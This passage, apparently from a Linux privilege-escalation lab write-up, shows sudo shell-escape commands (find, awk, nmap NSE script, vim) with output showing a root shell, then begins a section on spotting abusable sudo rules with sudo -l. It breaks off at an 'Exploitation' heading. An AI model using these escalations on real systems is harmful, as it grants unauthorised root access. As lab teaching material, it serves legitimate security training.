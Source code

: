 1. In command prompt type any of the following:

~~~
$ sudo find /bin -name nano -exec /bin/sh \;
$ sudo awk 'BEGIN {system("/bin/sh")}'
$ echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
$ sudo vim -c '!sh'
~~~

Output for `find`:

~~~
TCM@debian:~$ sudo find /bin -name nano -exec /bin/bash \;
root@debian:/home/user# whoami
root
~~~

With vim:

~~~
TCM@debian:~$ sudo vim -c '!bash'

root@debian:/home/user# whoami
root
~~~

# [Task 9] Privilege Escalation - Sudo (Abusing Intended Functionality)

**Detection**

Linux VM

1. In command prompt type: `sudo -l`
2. From the output, notice the list of programs that can run via sudo.

~~~
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
~~~

**Exploitation**

